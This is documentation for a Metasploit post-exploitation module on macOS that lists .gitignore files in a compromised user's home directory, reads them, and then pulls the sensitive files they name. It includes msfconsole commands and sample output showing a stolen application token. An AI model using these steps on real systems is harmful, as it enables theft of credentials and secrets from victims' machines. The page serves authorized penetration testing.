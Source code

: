 ## Vulnerable Application

This module finds and retrieves gitignore files from the user's home directory,
as well as retrieves the contents of files found in the gitignore.

## Verification Steps

  1. Start msfconsole
  2. Get at least a user shell

  Locate gitignore files:
  3. Do: `use post/osx/gather/gitignore`
  4. Do: `set session #`
  5. Do: `set mode 1`
  5. Do: `run`
  6. You should see a list of all gitignore files with absolute path located recursively from the users'r home directory

  Retrieve gitignore files:
  7. Do: `set mode 2`
  8. Do: `set file /absolute/path/to/.gitignore`
  9. Do `run`
  10. You should see the contents of the gitignore file. If you see anything useful, you can also retrieve these artifacts.

  Retrieve sensitive or interesting artifacts:
  11. Do: `set file /absolute/path/to/sensitive_file`
  12. Do: `run`

## Options

  ### MODE
  Select between enumeration and retrieval mode.
  Mode 1 is enumeration of all gitignore files recursively in the user's home directory.
  Mode 2 is used for retrieving file contents should they be ASCII text.

  ### FILE
  This is the absolute file path to the .gitignore and/or sensitive file you would like to retrieve.

## Scenarios

Gitignore files commonly list items developers don't want leaked and generally contain sensitive information.

### Finding gitignore files

```
msf post(osx/gather/gitignore) > set mode 1
msf post(osx/gather/gitignore) > set session 1
msf post(osx/gather/gitignore) > run

[*] Fetching .gitignore files
[+] /Users/victim/Documents/project/.gitignore
[+] ...
[*] Post module execution completed
```

### Recovering contents of a specific gitignore

```
msf post(osx/gather/gitignore) > set file /Users/victim/project/.gitignore
msf post(osx/gather/gitignore) > set mode 2
msf post(osx/gather/gitignore) > run

[+] /Users/victim/project/.gitignore
[+] .sensitive_file
[*] Post module execution completed
```

### Recovering contents of a sentitive file

```
msf post(osx/gather/gitignore) > set file /Users/victim/project/.sensitive_file
msf post(osx/gather/gitignore) > run

[+] /Users/victim/project/.sensitive_file
[+] PWNED_APPLICATION_TOKEN=cHduZWQgdXIgZ2l0aHVi
[*] Post module execution completed
```

